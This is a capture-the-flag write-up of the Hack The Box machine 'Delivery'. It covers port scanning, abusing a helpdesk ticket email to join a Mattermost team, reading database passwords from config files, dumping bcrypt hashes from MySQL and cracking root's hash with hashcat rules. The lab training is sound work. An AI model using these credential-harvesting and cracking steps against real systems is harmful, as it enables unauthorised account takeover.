






My second HTB machine. Personally, it'd say this one was slightly more difficult than `ScriptKiddie`, but still, it wasn't all too challenging, because the creator left many hints along the way. Probably a great machine for beginners!

## table of contents

- [table of contents](#table-of-contents)
- [recon](#recon)
  - [nmap](#nmap)
  - [web server](#web-server)
  - [mattermost](#mattermost)
  - [osticket](#osticket)
- [foothold](#foothold)
  - [osticket & mattermost](#osticket--mattermost)
  - [ssh](#ssh)
- [enumeration](#enumeration)
  - [osticket](#osticket-1)
  - [mattermost](#mattermost-1)
- [privesc](#privesc)
  - [cracking](#cracking)
  - [su](#su)

## recon

### nmap

As always, I started by performing some nmap scans - first of the top 1000 and then of all ports. This time, the full scan yielded some slightly different results, it discoverd a service on port `8065`:

```bash
sudo nmap -vv -A -p- -oA nmap/full 10.10.10.222
```

```txt
# Nmap 7.91 scan initiated Sun Feb 14 00:46:45 2021 as: nmap -vv -A -p- -oA nmap/full 10.10.10.222
Increasing send delay for 10.10.10.222 from 0 to 5 due to 848 out of 2826 dropped probes since last increase.
Nmap scan report for delivery.htb (10.10.10.222)
Host is up, received echo-reply ttl 63 (0.074s latency).
Scanned at 2021-02-14 00:46:45 CET for 528s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCq549E025Q9FR27LDR6WZRQ52ikKjKUQLmE9ndEKjB0i1qOoL+WzkvqTdqEU6fFW6AqUIdSEd7GMNSMOk66otFgSoerK6MmH5IZjy4JqMoNVPDdWfmEiagBlG3H7IZ7yAO8gcg0RRrIQjE7XTMV09GmxEUtjojoLoqudUvbUi8COHCO6baVmyjZRlXRCQ6qTKIxRZbUAo0GOY8bYmf9sMLf70w6u/xbE2EYDFH+w60ES2K906x7lyfEPe73NfAIEhHNL8DBAUfQWzQjVjYNOLqGp/WdlKA1RLAOklpIdJQ9iehsH0q6nqjeTUv47mIHUiqaM+vlkCEAN3AAQH5mB/1
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAiAKnk2lw0GxzzqMXNsPQ1bTk35WwxCa3ED5H34T1yYMiXnRlfssJwso60D34/IM8vYXH0rznR9tHvjdN7R3hY=
|   256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEV5D6eYjySqfhW4l4IF1SZkZHxIRihnY6Mn6D8mLEW7
80/tcp   open  http    syn-ack ttl 63 nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  unknown syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Cache-Control: no-cache, max-age=31556926, public
|     Content-Length: 3108
|     Content-Security-Policy: frame-ancestors 'self'; script-src 'self' cdn.rudderlabs.com
|     Content-Type: text/html; charset=utf-8
|     Last-Modified: Fri, 12 Feb 2021 22:02:04 GMT
|     X-Frame-Options: SAMEORIGIN
|     X-Request-Id: 68d1eh3tg3r6mc7jp6zj8nruae
|     X-Version-Id: 5.30.0.5.30.1.57fb31b889bf81d99d8af8176d4bbaaa.false
|     Date: Sun, 14 Feb 2021 00:03:26 GMT
|     <!doctype html><html lang="en"><head><meta charset="utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,user-scalable=0"><meta name="robots" content="noindex, nofollow"><meta name="referrer" content="no-referrer"><title>Mattermost</title><meta name="mobile-web-app-capable" content="yes"><meta name="application-name" content="Mattermost"><meta name="format-detection" content="telephone=no"><link re
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Date: Sun, 14 Feb 2021 00:03:26 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8065-TCP:V=7.91%I=7%D=2/14%Time=60286692%P=x86_64-unknown-linux-gnu
SF:%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(GetRequest,DF3,"HTTP/1\.0\x20200\x20OK\r\nAccept-Ran
SF:ges:\x20bytes\r\nCache-Control:\x20no-cache,\x20max-age=31556926,\x20pu
SF:blic\r\nContent-Length:\x203108\r\nContent-Security-Policy:\x20frame-an
SF:cestors\x20'self';\x20script-src\x20'self'\x20cdn\.rudderlabs\.com\r\nC
SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nLast-Modified:\x20Fri,\x
SF:2012\x20Feb\x202021\x2022:02:04\x20GMT\r\nX-Frame-Options:\x20SAMEORIGI
SF:N\r\nX-Request-Id:\x2068d1eh3tg3r6mc7jp6zj8nruae\r\nX-Version-Id:\x205\
SF:.30\.0\.5\.30\.1\.57fb31b889bf81d99d8af8176d4bbaaa\.false\r\nDate:\x20S
SF:un,\x2014\x20Feb\x202021\x2000:03:26\x20GMT\r\n\r\n<!doctype\x20html><h
SF:tml\x20lang=\"en\"><head><meta\x20charset=\"utf-8\"><meta\x20name=\"vie
SF:wport\"\x20content=\"width=device-width,initial-scale=1,maximum-scale=1
SF:,user-scalable=0\"><meta\x20name=\"robots\"\x20content=\"noindex,\x20no
SF:follow\"><meta\x20name=\"referrer\"\x20content=\"no-referrer\"><title>M
SF:attermost</title><meta\x20name=\"mobile-web-app-capable\"\x20content=\"
SF:yes\"><meta\x20name=\"application-name\"\x20content=\"Mattermost\"><met
SF:a\x20name=\"format-detection\"\x20content=\"telephone=no\"><link\x20re"
SF:)%r(HTTPOptions,5B,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowed\r\nDat
SF:e:\x20Sun,\x2014\x20Feb\x202021\x2000:03:26\x20GMT\r\nContent-Length:\x
SF:200\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nC
SF:ontent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\
SF:n\r\n400\x20Bad\x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Requ
SF:est\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20
SF:close\r\n\r\n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x204
SF:00\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r
SF:\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerC
SF:ookie,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/p
SF:lain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Req
SF:uest");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/14%OT=22%CT=1%CU=32367%PV=Y%DS=2%DC=T%G=Y%TM=602866F
OS:5%P=x86_64-unknown-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=
OS:A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M5
OS:4DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE8
OS:8)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S
OS:+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=
OS:)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%
OS:A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%
OS:DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=
OS:40%CD=S)

Uptime guess: 21.618 days (since Sat Jan 23 10:05:47 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=257 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT       ADDRESS
1   130.34 ms 10.10.14.1
2   129.79 ms delivery.htb (10.10.10.222)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 14 00:55:33 2021 -- 1 IP address (1 host up) scanned in 528.81 seconds
```

... still, the web server on port 80 seemed to be the most promising thing for now, so I went ahead and checked that out.

### web server

Upon visiting the website we are greeted by a rather nice-looking template:

<div align="center">
    
</div>

... clicking on *contact us* also provides us with an interesting message and gives us two promising links: [helpdesk.delivery.htb](http://helpdesk.delivery.htb/) and [delivery.htb:8065](http://delivery.htb:8065/)

<div align="center">
    
</div>

... so, after adding `helpdesk.delivery.htb` and `delivery.htb` to my `/etc/hosts` file, I went ahead and checked both URLs.

### mattermost

A bit of research quickly reveals that this Mattermost service is in fact an *"[...] open-source, self-hostable online chat service [...]"* (thanks [Wikipedia](https://en.wikipedia.org/wiki/Mattermost)). That sound rather promising!

Upon visiting the webpage you'll quickly discover, however, that you need a valid email address to sign up. This is a problem, because HTB boxes don't have access to the internet... 

<div align="center">
    
</div>

### osticket

Visiting [helpdesk.delivery.htb](http://helpdesk.delivery.htb) unmistakably shows that it's running [osTicket](https://github.com/osTicket/osTicket), a service for managing support tickets. Poking around the page a bit shows us that there's also some sort of administrator panel at [/scp/](http://helpdesk.delivery.htb/scp/), however, we don't have the credentials needed to access this, yet:

<div align="center">
    
</div>

What we can do, however, is create and view our own support tickets - this is rather interesting, because of what the system tells us upon creating a new random ticket at [/open.php](http://helpdesk.delivery.htb/open.php):

<div align="center">
    
</div>

... *"[...] If you want to add more information to your ticket, just email 5622752@delivery.htb. [...]"*. Hmm... seems like we just got an internal email address! Wasn't that the only thing we needed to sign up for Mattermost?

## foothold

### osticket & mattermost

Remembering the email address and ticket id we got/used to create a new support ticket, we can now look at its status by *signing in* at [/view.php](http://helpdesk.delivery.htb/view.php):

<div align="center">
    
</div>

... now using the email address `<ticket-number>@delivery.htb` we can create an account on [Mattermost](http://delivery.htb:8065/http://delivery.htb:8065/signup_email) (the password policy is a bit annoying, but something like `Password1234!` should do the trick):

<div align="center">
    
</div>

... and after creating our account and refreshing the [ticket status page](http://helpdesk.delivery.htb/tickets.php):

<div align="center">
    
</div>

... we can confirm our account, and join a Mattermost team called `Internal`:

<div align="center">
    
</div>

... `root`'s messages are rather interesting. Not only do they give us the credentials to access the server, `maildeliverer:Youve_G0t_Mail!`, but they also talk about all the company's passwords being derivations of `PleaseSubscribe!`...

### ssh

Anyway, now, using the credentials root disclosed to us, we can simply use ssh to connect to the server as `maildeliverer` and get the user flag.

```bash
ssh maildeliverer@deliver.htb
```

```bash
maildeliverer@Delivery:~$ cat $HOME/user.txt
656*****************************
```

## enumeration

### osticket

Seraching through the folder where osticket lives (`/var/www/osticket`) you'll quickly stumble upon its MySQL database credentials in `/var/www/osticket/upload/include/ost-config.php`:

```bash
grep -C4 database /var/www/osticket/upload/*.php
```

```txt
/var/www/osticket/upload/bootstrap.php-        define('SESSION_TTL', 86400); // Default 24 hours
/var/www/osticket/upload/bootstrap.php-    }
/var/www/osticket/upload/bootstrap.php-
/var/www/osticket/upload/bootstrap.php-    function connect() {
/var/www/osticket/upload/bootstrap.php:        #Connect to the DB && get configuration from database
/var/www/osticket/upload/bootstrap.php-        $ferror=null;
/var/www/osticket/upload/bootstrap.php-        $options = array();
/var/www/osticket/upload/bootstrap.php-        if (defined('DBSSLCA'))
/var/www/osticket/upload/bootstrap.php-            $options['ssl'] = array(
--
/var/www/osticket/upload/bootstrap.php-                'key' => DBSSLKEY
/var/www/osticket/upload/bootstrap.php-            );
/var/www/osticket/upload/bootstrap.php-
/var/www/osticket/upload/bootstrap.php-        if (!db_connect(DBHOST, DBUSER, DBPASS, $options)) {
/var/www/osticket/upload/bootstrap.php:            $ferror=sprintf('Unable to connect to the database — %s',db_connect_error());
/var/www/osticket/upload/bootstrap.php:        }elseif(!db_select_database(DBNAME)) {
/var/www/osticket/upload/bootstrap.php:            $ferror=sprintf('Unknown or invalid database: %s',DBNAME);
/var/www/osticket/upload/bootstrap.php-        }
/var/www/osticket/upload/bootstrap.php-
/var/www/osticket/upload/bootstrap.php-        if($ferror) //Fatal error
/var/www/osticket/upload/bootstrap.php-            self::croak($ferror);
```

```bash
grep DBUSER /var/www/osticket/upload/*.php
```

```txt
/var/www/osticket/upload/bootstrap.php:        if (!db_connect(DBHOST, DBUSER, DBPASS, $options)) {
```

```bash
grep DBUSER /var/www/osticket/upload/*/*.php
```

```txt
/var/www/osticket/upload/include/ost-config.php:define('DBUSER','ost_user');
/var/www/osticket/upload/include/ost-sampleconfig.php:define('DBUSER','%CONFIG-DBUSER');
```

```bash
grep DBPASS /var/www/osticket/upload/*/*.php
```

```txt
/var/www/osticket/upload/include/ost-config.php:define('DBPASS','!H3lpD3sk123!');
/var/www/osticket/upload/include/ost-sampleconfig.php:define('DBPASS','%CONFIG-DBPASS');
```

... however, when connecting to the database with `ost_user:!H3lpD3sk123!`, we only get access to the osTicket database, which doesn't have any too interesting user accounts ...

```sql
SELECT  name, user_id, passwd 
FROM    ost_user_account a INNER JOIN ost_user u ON a.id = u.id;
```

```txt
+----------------------------------+---------+--------------------------------------------------------------+
| name                             | user_id | passwd                                                       |
+----------------------------------+---------+--------------------------------------------------------------+
| osTicket Support                 |       7 | $2a$08$WrlyoPMg.fFIsN.Tzpe/RODF6zNeZr8mvKE7B8ndVYTNTgfulhLL. |
| bob                              |      12 | $2a$08$tksdyYfeIl.PMmk5Bgp01.OFxAVnZC7j34G9Pss/ztZgc8FRtLRNu |
| 9ecfb4be145d47fda0724f697f35ffaf |      13 | $2a$08$UaEesO.ZsVaP6sq69nsAnOw39mIOPNGH8ofvDNhoB0ahIdZqe9ccq |
+----------------------------------+---------+--------------------------------------------------------------+
3 rows in set (0.000 sec)
```

... since this account doesn't have permission to access `mysql.user` either, perhaps it wasn't the right one... *MORE ENUMERATING!*

### mattermost

Let's try searching for the mattermost db credentials instead - after all, we know for certain that there's an interesting user on this service: `root`.

They were even easier to find than the osticket creds:

```bash
ps aux | grep mattermost
```

```txt
matterm+   697  0.4  3.9 1650620 157952 ?      Ssl  06:28   0:38 /opt/mattermost/bin/mattermost
matterm+   892  0.0  0.5 1239060 21272 ?       Sl   06:29   0:00 plugins/com.mattermost.nps/server/dist/plugin-linux-amd64
matterm+   893  0.0  0.5 1234164 20716 ?       Sl   06:29   0:00 plugins/com.mattermost.plugin-channel-export/server/dist/plugin-linux-amd64
maildel+  2152  0.0  0.0   6076   824 pts/4    S+   08:50   0:00 grep mattermost
```

```bash
ls -la /opt/mattermost
```

```txt
total 288
drwxrwxr-x 12 mattermost mattermost   4096 Dec 26 09:24 .
drwxr-xr-x  3 root       root         4096 Dec 26 09:22 ..
drwxrwxr-x  2 mattermost mattermost   4096 Dec 18 08:53 bin
drwxrwxr-x  7 mattermost mattermost   4096 Dec 26 09:24 client
drwxrwxr-x  2 mattermost mattermost   4096 Dec 26 09:23 config
drwxrwxr-x  3 mattermost mattermost   4096 Feb 14 06:28 data
-rw-rw-r--  1 mattermost mattermost   2052 Dec 18 08:52 ENTERPRISE-EDITION-LICENSE.txt
drwxrwxr-x  2 mattermost mattermost   4096 Dec 18 08:52 fonts
drwxrwxr-x  2 mattermost mattermost   4096 Dec 18 08:52 i18n
drwxrwxr-x  2 mattermost mattermost   4096 Dec 26 09:23 logs
-rw-rw-r--  1 mattermost mattermost    898 Dec 18 08:52 manifest.txt
-rw-rw-r--  1 mattermost mattermost 229264 Dec 18 08:52 NOTICE.txt
drwxr--r--  5 mattermost mattermost   4096 Feb 14 06:29 plugins
drwxrwxr-x  2 mattermost mattermost   4096 Dec 18 08:53 prepackaged_plugins
-rw-rw-r--  1 mattermost mattermost   6262 Dec 18 08:52 README.md
drwxrwxr-x  2 mattermost mattermost   4096 Dec 18 08:52 templates
```

```bash
grep -C4 mysql /opt/mattermost/config/*
```

```txt
/opt/mattermost/config/config.json-        "IosLatestVersion": "",
/opt/mattermost/config/config.json-        "IosMinVersion": ""
/opt/mattermost/config/config.json-    },
/opt/mattermost/config/config.json-    "SqlSettings": {
/opt/mattermost/config/config.json:        "DriverName": "mysql",
/opt/mattermost/config/config.json-        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
/opt/mattermost/config/config.json-        "DataSourceReplicas": [],
/opt/mattermost/config/config.json-        "DataSourceSearchReplicas": [],
/opt/mattermost/config/config.json-        "MaxIdleConns": 20,
```

... using `mmuser:Crack_The_MM_Admin_PW` (btw. the password on this one already seems *way* more interesting) to connect to MySQL now gives us access to the `mattermost` db and its `Users` table:

```sql
DESCRIBE Users;
```

```txt
+--------------------+--------------+------+-----+---------+-------+
| Field              | Type         | Null | Key | Default | Extra |
+--------------------+--------------+------+-----+---------+-------+
| Id                 | varchar(26)  | NO   | PRI | NULL    |       |
| CreateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| UpdateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| DeleteAt           | bigint(20)   | YES  | MUL | NULL    |       |
| Username           | varchar(64)  | YES  | UNI | NULL    |       |
| Password           | varchar(128) | YES  |     | NULL    |       |
| AuthData           | varchar(128) | YES  | UNI | NULL    |       |
| AuthService        | varchar(32)  | YES  |     | NULL    |       |
| Email              | varchar(128) | YES  | UNI | NULL    |       |
| EmailVerified      | tinyint(1)   | YES  |     | NULL    |       |
| Nickname           | varchar(64)  | YES  |     | NULL    |       |
| FirstName          | varchar(64)  | YES  |     | NULL    |       |
| LastName           | varchar(64)  | YES  |     | NULL    |       |
| Position           | varchar(128) | YES  |     | NULL    |       |
| Roles              | text         | YES  |     | NULL    |       |
| AllowMarketing     | tinyint(1)   | YES  |     | NULL    |       |
| Props              | text         | YES  |     | NULL    |       |
| NotifyProps        | text         | YES  |     | NULL    |       |
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |
| Locale             | varchar(5)   | YES  |     | NULL    |       |
| Timezone           | text         | YES  |     | NULL    |       |
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |
+--------------------+--------------+------+-----+---------+-------+
25 rows in set (0.001 sec)
```

... the `Roles` column seems to be interesting, let's see what the default is:

```sql
SELECT  Roles 
FROM    Users 
LIMIT   5;
```

```txt
+-------------+
| Roles       |
+-------------+
| system_user |
| system_user |
| system_user |
| system_user |
| system_user |
+-------------+
5 rows in set (0.000 sec)
```

... *kk*, then let's find the admin!

```sql
SELECT  Username, Email, Roles, Password 
FROM    Users 
WHERE   Roles != 'system_user';
```

```txt
+----------+-------------------+--------------------------+--------------------------------------------------------------+
| Username | Email             | Roles                    | Password                                                     |
+----------+-------------------+--------------------------+--------------------------------------------------------------+
| root     | root@delivery.htb | system_admin system_user | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
+----------+-------------------+--------------------------+--------------------------------------------------------------+
1 row in set (0.001 sec)
```

... could've also just searched for the user root... but... it's *cooler* this way... ^^. Anyway, looks like we've got a hash now!

## privesc

### cracking

Using the following hint from the *Internal* team at Mattermost ... 

```txt
PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

... and root's password hash, which we just recovered ...

```bash
echo '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO' > ./root-hash.txt
```

... it's not too challenging cracking the password using something along the lines of:

```bash
echo 'PleaseSubscribe!' | hashcat -a0 -m3200 -r /usr/share/hashcat/rules/best64.rule --show ./root-hash.txt
```

```txt
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```

... *yay!* Looks like that worked!

### su

Privilege escalation isn't *too* challenging now ^^. Simply *su* to root:

```bash
su
```

... and get the root flag, of course:

```bash
cat $HOME/root.txt
```

```txt
368*****************************
```
